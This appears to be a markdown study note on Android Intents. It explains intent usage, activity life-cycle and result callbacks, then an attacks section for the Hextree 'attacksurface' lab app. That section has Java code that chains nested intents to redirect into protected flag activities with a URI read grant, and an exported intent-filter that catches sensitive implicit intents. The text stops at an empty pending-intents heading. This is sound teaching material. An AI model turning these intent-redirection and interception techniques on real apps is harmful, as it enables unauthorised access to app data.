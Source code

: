 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Activity Life Cycle](#activity-life-cycle)
- [Returning Activity Results](#returning-activity-results)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)
    - [Implicit Intents](#implicit-intents)
    - [Delegation via Pending Intents](#delegation-via-pending-intents)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `startActivity(<Intent_Name>)`
    - `<Intent_Name>.setAction(<Action_Name>)`

- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

## Activity Life Cycle

- Scenarios When `onNewIntent()` Is Triggered
    1. Activity Launched with `FLAG_ACTIVITY_SINGLE_TOP`:
        - If the activity is already running at the top of the back stack, and a new intent is sent to it with the `Intent.FLAG_ACTIVITY_SINGLE_TOP` flag, the system calls `onNewIntent()` instead of creating a new instance of the activity.
    2. Activity Configured with `launchMode="singleTop"`:

        - If the activity is declared in the `AndroidManifest.xml` file with the launchMode attribute set to `singleTop`, the system calls `onNewIntent()` when the activity is already at the top of the stack and receives a new intent.
        ```xml
        <activity
            android:name=".YourActivity"
            android:launchMode="singleTop" />
        ```

    3. Activity Declared as `singleTask` or `singleInstance`:

        - For activities declared with `launchMode="singleTask"` or `launchMode="singleInstance"`, `onNewIntent()` is called when the activity is already running in a task and a new intent is directed to it.
    4. Task Reuse (`Intent.FLAG_ACTIVITY_REORDER_TO_FRONT`):

        - If you launch an activity that is already in the back stack of the current task using the `FLAG_ACTIVITY_REORDER_TO_FRONT` flag, the system brings it to the front and calls `onNewIntent()`.


## Returning Activity Results
1. `getCallingActivity()`
    - `getCallingActivity()` is used to retrieve the component name of the activity that started the current activity using `startActivityForResult()`.
    ```java
        ComponentName callingActivity = getCallingActivity();
        if (callingActivity != null) {
            Log.d("Caller", "Calling activity: " + callingActivity.getClassName());
        }
    ```

2. `startActivityForResult()`

    - `startActivityForResult()` is used to start another activity with the expectation of getting a result back. The result is received in the `onActivityResult()` method.
    ```java
    Intent intent = new Intent(this, SecondActivity.class);
    startActivityForResult(intent, 1); // 1 is the requestCode

    ```

3. `onActivityResult()`
    - `onActivityResult()` is a callback method in the originating activity that receives the result sent back by the target activity.
    ```java
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                String result = data.getStringExtra("resultKey");
                Log.d("Result", "Result from SecondActivity: " + result);
            }
        }
    }
    ```
    - Results are returned using `setResult()` in the target activity.


## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.

### Implicit Intents

- As an attacker we rarely send implicit intents, because usually we want to explicitly target a specific vulnerable app.

- But receiving implicit intents could result in typical issues. If an app uses implicit intents insecurely, for example when it transmits sensitive data, then registering a handler for this intent could exploit this.

- Example:
```java
Intent intent = getIntent();
Utils.showDialog(this,intent);
if("io.hextree.attacksurface.ATTACK_ME".equals(intent.getAction())){
    String flag = intent.getStringExtra("flag");
    Toast.makeText(this,flag,Toast.LENGTH_LONG).show();
}else{
    Log.d("Flag10", "Not Received");
}
```
```xml
<activity
    android:name=".Second_Activity"
    android:exported="true">
<intent-filter>
    <action android:name="io.hextree.attacksurface.ATTACK_ME"/>
    <category android:name="android.intent.category.DEFAULT" />
</intent-filter>

</activity>
```


### Delegation via Pending Intents
